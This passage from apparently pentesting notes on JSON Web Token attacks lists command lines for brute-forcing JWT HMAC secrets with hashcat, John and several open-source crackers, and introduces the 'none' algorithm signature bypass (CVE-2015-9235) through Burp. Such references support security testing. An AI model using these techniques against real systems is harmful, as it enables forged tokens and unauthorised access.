     ```bash
    #hashcat
    $ hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt
    
    #John
    $ john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256
    
    #https://github.com/Sjord/jwtcrack
    $ python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt
    Cracking JWT ...
    88037it [02:47, 406.48it/s]
    
    #https://github.com/ticarpi/jwt_tool
    $ python3 jwt_tool.py -d wordlists.txt <JWT token>
    
    #https://github.com/mazen160/jwt-pwn
    $ python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt
    [info] Loaded wordlist.
    [info] starting brute-forcing.
    [Progress]: 0.02
    
    #https://github.com/brendan-rius/c-jwt-cracker
    $ ./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8
    /opt/jwt/c-jwt-cracker/jwtcrack <token> [alphabet] [max_len] [hmac_alg]
    Defaults: alphabet=eariotnslcudpmhgbfywkvxzjqEARIOTNSLCUDPMHGBFYWKVXZJQ0123456789, max_len=6, hmac_alg=sha256
    
    #https://github.com/lmammino/jwt-cracker
    $ python3 jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
    ```
    

## ‘none’ Algorithm (CVE-2015-9235) / Remove signature / both

>[!tip]
>Set the algorithm used as "None" and remove the signature part.

Use the Burp extension call "JSON Web Token" to try this vulnerability and to change different values inside the JWT (send the request to Repeater and in the "JSON Web Token" tab you can modify the values of the token. You can also select to put the value of the "Alg" field to "None").

Example:

- Original:
    
    `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjEwMDAiLCJwcml2IjoidXNlciJ9.FyXaxIcYWlAtioQ15ax2QzS_q0dE7fBhUul9Mzr_LYU`
    
    ```json
    {"alg":"HS256","typ":"JWT"}.{"id":"1000","priv":"user"}
    ```
    

[^1]: https://en.wikipedia.org/wiki/JSON_Web_Token